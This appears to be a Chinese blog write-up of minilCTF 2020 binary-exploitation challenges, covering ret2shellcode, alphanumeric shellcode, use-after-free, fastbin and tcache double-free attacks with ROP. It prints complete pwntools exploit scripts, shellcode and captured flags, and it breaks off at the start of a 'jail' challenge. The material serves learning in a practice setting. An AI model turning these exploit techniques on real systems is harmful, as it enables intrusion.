









<!--yml
category: 未分类
date: 2022-04-26 14:35:25
-->

# 【CTF题解NO.00002】minilCTF 2020 - write up by arttnba3_arttnba3的博客-CSDN博客

> 来源：[https://blog.csdn.net/arttnba3/article/details/108068265](https://blog.csdn.net/arttnba3/article/details/108068265)

### 【CTF题解NO.00002】minilCTF 2020 - write up by arttnba3

# 0x00.绪论

mini-LCTF，前身是makerCTF，是西电校内享誉盛名（？）的CTF，作为菜鸡CTFer也尝试着参加了一手

因为咱主攻PWN的原因，所以这一篇应该只有PWN（

（不过主要还是因为我太菜了XD

> 注：所有题目在[archive.lctf.online](https://archive.lctf.online)上都有部署

# 0x01.Sign in

## Starting Point

点进页面就可以直接获得flag了

# 0x02.PWN

## hello - ret2text + ret2shellcode

[点击下载-hello](/download/minil/pwn/hello%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

> 证明了我真的是菜鸡的一道pwn题，搞了半天才明白XD

做题环境`Manjaro-KDE`

首先使用`checksec`指令查看保护，可以发现保护基本都是关的，只有`Partial RELRO`，那么基本上是可以为所欲为了wwww

`win`环境下拖进`IDA`进行分析



可以发现在`vul函数`存在明显的栈溢出


`main`函数中调用了`vul`


那么程序漏洞很明显了：

*   **使用`fgets`读入最大为72个字节的字符串，但是只分配给了48字节的空间，存在栈溢出**

又有一个可疑的`bd`函数，那么第一时间想到**`ret2text`**——构造payload跳转到`bd`

但是很明显，`bd`函数基本是是空的(悲)


> 然后我就在这里卡了半天，证明我真的菜XD，感谢[cor1e](cor1e.cn)大佬的耐心解答

那么我们该如何利用这个`bd`呢？

可以看到在`bd`中存在操作`jmp rsp`，那么其实我们可以利用这个指令**跳转回栈上，执行我们放在栈上的shellcode**

**也就是说这其实是一道ret2shellcode的题**

### ret2text执行过程：

*   **rsp永远指向栈顶**

*   **当我们用常规的ret2text构造48字节字符串+8字节rbp+8字节bd函数地址（覆盖掉原返回地址）的payload时，rsp指向的其实是bd函数地址的位置**

*   **ret指令进入bd后弹出bd地址，rsp指向栈内储存的rbp的值（预期内）**

*   **bd函数将rbp再push入栈中，此时rsp再加8，指向被新压入的rbp（预期内）**

*   **bd函数执行rsp上的指令**
    那么我们就可以在rsp预期内指向的地址上覆盖上我们的shellcode使其被执行

接下来就是ret2shellcode的：

### ret2shellcode修正过程：

*   **在rsp最终指向的地址放上我们待执行的shellcode**

*   **由于长度不够，我们可以把getshell的shellcode放在读入的字符串的最开始的地方，再通过汇编指令进行跳转**

*   **在rsp所指向的位置覆盖上shellcode，改变rsp的值使其指向getshell的shellcode并再次进行跳转，完成getshell**

那么payload就很容易构造出来了：

> 注：第一次盲打payload居然错了，我还是太菜了Or2
> 
> 注2：其实可以不需要跳转到bd，直接跳转到

```
context.arch = 'amd64'
sc1 = asm(shellcraft.sh())
sc2 = asm('sub rsp,56')//48字节的字符串+8字节的rbp，跳回开头
sc3 = asm('jmp rsp')
elf = ELF('hello')
payload = sc1 + b'a'*(56-len(sc1)) + p64(elf.symbols['bd']) + sc2 + sc3 
```


### 高阶解法：栈迁移

假如说这道题并不存在供我们进行跳转的`bd函数`，给我们的溢出长度就只有72-48=24个字节，但是仅仅是`asm(sellcraft.sh())`就已经需要48个字节，那么我们该如何通过仅仅24字节的溢出完成pwn呢

答案是使用`栈迁移`技术

> 注：赛期因为各种ddl导致只解出了这一道题XD 后面的题解是在赛后写的 部分参照了Lunatic和eqqie师傅的题解

## ezsc - Alphanumeric Shellcode

[点击下载-ezsc](/download/minil/pwn/ezsc%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

首先是惯例的`checksec`


四舍五入保护全关，我们有极大的操作空间

### 程序分析

拖入IDA进行分析



v7是一个函数指针，并被分配到了`0x1000`大小的内存空间

程序会从输入流逐字节读入最大4096个字节写入到v7所指向的空间上，且限制输入仅能为字母或数字否则终止输入

输入结束后尝试执行函数指针v7

那么我们直接输入一段shellcode即可getshell

但是限制了输入只能是数字和字母，常见的shellcode都包含一些其他字符

于是只好百度XD

得知一种叫做**Alphanumeric Shellcode**的东西www

### Alphanumeric Shelllcode

具体参见：[https://www.freebuf.com/articles/system/232280.html](https://www.freebuf.com/articles/system/232280.html)

首先从GitHub上随便找一个轮子

```
$ git clone https://github.com/TaQini/alpha3.git 
```

然后编写生成我们的shellcode的脚本

```
 from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print asm(sc) 
```

输出重定向至文本

```
$ python sc.py > sc 
```

使用轮子生成alphanumeric shellcode

```
$ python ./ALPHA3.py x64 ascii mixedcase rax --input="sc" 
```


```
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a071N00 
```

连接服务端，发送我们的alphanumeric shellcode，成功getshell



得到flag

```
moectf{Y0u_kn3w_tH3_a1ph4num3r1C_she1lc0de!} 
```

## easycpp - Use After Free

[点击下载-easycpp](/download/minil/pwn/easycpp%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)
[点击下载-libc.so.6](/download/minil/pwn/libc.so.6%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

首先是惯例的`checksec`


我们可以看到，和前面几题不同的是这个程序是一个32位的程序

> 说实话我也不知道为什么画风突变变成32位XD

### 程序分析

拖入IDA进行分析


用到了一个名为`B`的类，我们先看看这个类都有些啥

IDA中类B有一个构造函数`B()`和一个`print()`函数


类B的构造函数如下：


类B的构造函数首先调用了类A的构造函数，然后将变量_vptr_A设置为一个函数指针

我们不难看到在0x80489E4位置上我们还需要再跳转一次到0x80488F2的位置，这个位置上有一个`B::print()`函数，故可知这是一个**二级函数指针**




我们再来看看类A的构造函数，如下：


类A的构造函数也是将变量`_vptr_A`设置为一个函数指针

位于off_80489F0上的函数为`A::print()`




接下来是main函数的简单分析：



v3、v4都是一个类型为`类 B`的指针

首先`setvbuf()`函数将程序设置为无缓冲输入

之后创建了一个类B的实例并将地址给到指针v3和v4

之后将该实例内的变量`_vptr_A`的值设为0

之后使用delete释放掉之前分配给v3、v4的内存

之后**从标准输入流读入1024个字节到buf**（或许有操作空间？）

之后调用`strbuf()`函数重新分配一段内存空间并将buf的值拷贝一份（当然最后并没有指针接收这一块内存，那么它会成为野内存吗？）

最后**重新调用v4的函数指针变量所指向的函数**

那么我们在这里就可以发现一个exploit：

### Use After Free

v3、v4所指向的内存空间被释放后v3、v4并没有被设置为NULL，在运行到strdup()函数时这一块内存空间又被重新分配给strdup()函数，而之后又通过v4再次对这一块内存空间进行调用，很明显存在**UAF（Use After Free）**漏洞

同时我们可以发现存在一个`backdoor()`函数直接调用了`system(""/bin/sh")`，可以直接getshell



故我们只需要覆写掉函数指针所指的函数为backdoor()函数即可getshell

构造二级指针的结构应为

| buf | buf+4 |
| --- | --- |
| 右边那一块的地址 -> | 指向backdoor函数的地址 |

buf的地址如下：


故得exp如下

```
from pwn import *

context.log_level = 'debug'

p = process('easycpp')

backdoor = 0x80487BB
buf = 0x804A0C0

payload = p32(buf + 4) + p32(backdoor)

p.sendline(payload)

p.interactive() 
```

向服务器发送payload，成功getsgell

 

得到flag:

```
moectf{Ev3ryth1ng_c@n_be_cPP!} 
```

## noleak - Heap Overflow + Integer Overflow + Fastbin Attack

[点击下载-time_management.zip](/download/minil/pwn/time_management.zip%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

首先是惯例的`checksec`，发现开了NX保护和Canary


先简单运行看一下，有新建、编辑、删除的简单计划程序，这种十分规范的模式让人感觉的出来应该是一道堆题（~~说好的只出栈呢~~


拖入IDA进行分析：（以下部分函数及变量经重命名


该程序有着**分配、修改、释放堆块**的功能，~~一看就是一道很难的堆题~~

我们发现在用以读入输入的`sub_400896()`函数中存在整数溢出漏洞：当我们输入的长度为0时，由于其会先减一再转换成unsigned int类型，发生整数溢出，导致我们可以输入较长的内容到堆块上


同时我们发现存在白给的后门函数`:


由于got表开启了读写权限，故考虑**fastbin attack**：伪造fake chunk改写got表中free的地址为后门函数地址，之后随意释放一个堆块即可getshell

由于堆块指针表位于bss段，故我们考虑将其中一个指针的地址改写为free@got后直接edit即可

构造exp如下：

```
from pwn import *
p = remote('pwn.challenge.lctf.online',10069)
e = ELF('./time_management')

ptr_array = 0x6020c0
backdoor_addr = 0x400c9f

def alloc(size:int,content):
    p.recvuntil(b'Your choice : ')
    p.sendline(b'1')
    p.recvuntil(b'How many minutes will it take you to finish?')
    p.sendline(str(size).encode())
    p.recvuntil(b'Content of the plan: ')
    p.sendline(content)

def edit(index:int,size:int,content):
    p.recvuntil(b'Your choice : ')
    p.sendline(b'2')
    p.recvuntil(b'Index : ')
    p.sendline(str(index).encode())
    p.recvuntil(b'How many minutes will it take you to finish?')
    p.sendline(str(size).encode())
    p.recvuntil(b'Content of the plan: ')
    p.sendline(content)

def free(index:int):
    p.recvuntil(b'Your choice : ')
    p.sendline(b'3')
    p.recvuntil(b'Index : ')
    p.sendline(str(index).encode())

alloc(0x60,'arttnba3')
alloc(0x60,'arttnba3')
alloc(0x60,'arttnba3')

free(1)

edit(0,0,0x60*b'A' + p64(0xdeadbeef) + p64(0x71) + p64(ptr_array - 0x10-3))
alloc(0x60,'arttnba3')
alloc(0x60,'arttnba3')

edit(3,0,b'A'*3 + p64(e.got['free']))
edit(0,0,p64(backdoor_addr))
free(0)

p.interactive() 
```

运行脚本即可getshell


## heap_master - double free(use after free) + orw

[点击下载-pwn](/download/minil/pwn/pwn%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

> 遭到了sad师傅的暴击Or2

> （某种程度上算是minil的压轴题…？~~虽然说当时我连看都没看~~（←摸鱼划水人士，小朋友别学他

惯例的`checksec`，发现除了地址随机化以外都开上了


拖入IDA进行分析


程序本身有着分配堆块、释放堆块、输出堆块内容的功能

我们发现在`delete()`函数中`free()`后**并没有将相应堆块指针置0，存在UAF**


题目提示libc可能是2.23也可能是2.27，尝试**直接进行double free，发现程序没有崩溃**，故可知是没有double free检查的2.27的tcache

> libc2.29后tcache加入double free检查


在`main()`函数开头的`init()`函数中调用了`prctl()`函数，限制了我们不能够getshell

首先我们想到，我们可以先填满tcache，之后分配一个unsorted bin范围的chunk，通过打印该chunk的内容获取**main_arena + 0x60**的地址，**进而获得libc的地址**

> libc2.27之前unsorted bin里的chunk的fd/bk似乎是指向main_arena+0x58的，现在变成main_arena+0x60了，等有时间得去看看libc2.27的源码了…

虽然我们不能够getshell，但是依然可以通过double free进行任意地址写，~~毕竟CTF题目的要求是得到flag，不一定要得到shell，~~故考虑**通过environ变量泄漏出栈地址后在栈上构造rop链进行orw读出flag**

> PS: ORW = open + read + write（不知道谁起的缩写名…

> tips: __environ是一个保存了栈上变量地址的系统变量

通过动态调试我们容易得到`___environ`与`new()`中的返回地址间距离为0x220，**将rop链写到这个返回地址上即可接收到flag**


构造payload如下：

```
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'

p = process('./pwn') 
e = ELF('./pwn')
libc = ELF('./libc-2.27.so')

note_addr = 0x6020c0
flag_addr = e.bss() + 0x500

def new(size:int, content):
    p.recvuntil(b'>> ')
    p.sendline(b'1')
    p.recvuntil(b'size?')
    p.sendline(str(size).encode())
    p.recvuntil(b'content?')
    p.send(content)

def delete(index:int):
    p.recvuntil(b'>> ')
    p.sendline(b'2')
    p.recvuntil(b'index ?')
    p.sendline(str(index).encode())

def dump(index:int):
    p.recvuntil(b'>> ')
    p.sendline(b'3')
    p.recvuntil(b'index ?')
    p.sendline(str(index).encode())

def exp():
    p.recvuntil(b'what is your name? ')
    p.sendline(b'arttnba3')

    new(0x80, 'arttnba3') 
    new(0x80, 'arttnba3') 
    new(0x60, 'arttnba3') 
    new(0xb0, 'arttnba3') 

    for i in range(7):
        delete(0)

    delete(1)
    dump(1)
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x60
    malloc_hook = main_arena - 0x10
    libc_base = malloc_hook - libc.sym['__malloc_hook'] 
    environ = libc_base + libc.sym['__environ'] 
    pop_rdi_ret = libc_base + libc.search(asm('pop rdi\nret')).__next__()
    pop_rsi_ret = libc_base + libc.search(asm('pop rsi\nret')).__next__()
    pop_rdx_ret = libc_base + libc.search(asm('pop rdx\nret')).__next__()

    delete(2)
    delete(2)

    new(0x60, p64(note_addr)) 
    new(0x60, 'arttnba3') 
    new(0x60, p64(environ))

    dump(0)
    stack_leak = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    ret = stack_leak - 0x220

    payload = p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_ret) + p64(4) + p64(e.plt['read']) 
    payload += p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(4) + p64(libc_base + libc.sym['open'])
    payload += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_ret) + p64(0x30) + p64(e.plt['read'])
    payload += p64(pop_rdi_ret) + p64(flag_addr) + p64(e.plt['puts'])

    delete(3)
    delete(3)
    new(0xb0, p64(ret))
    new(0xb0, 'arttnba3') 
    new(0xb0, payload) 

    p.send('flag')
    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行脚本即得flag


> 【感想】
> 
> 不愧是能让sad师傅困扰一天的题目，也让我困扰了一天…
> 
> 比较精髓的一个点应该就是对于环境变量__environ的利用了
> 
> 【踩坑*1】
> 一开始我在自己的manjaro(libc2.32)上调，计算出来的__environ到返回地址的距离是0x230…，然后一直打不通…
> 
> 
> 
> 
> 冥思苦想半天只好选择装个ubuntu18(libc2.27)试一下，发现距离居然是0x220…然后就通了…
> 
> 
> 
> 【未解决问题】
> 在第一次double free的时候的chunk size必须为0x60（0x71），第二次double free时的chunk size必须大于等于0xb0（0xc1），究竟为何我暂且蒙在古里…（希望有师傅能通过左侧的邮箱告诉我www）

## jail

[点击下载-chroot](/download/minil/pwn/chroot%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

惯例的`checksec`，开了NX和canary


拖入IDA进行分析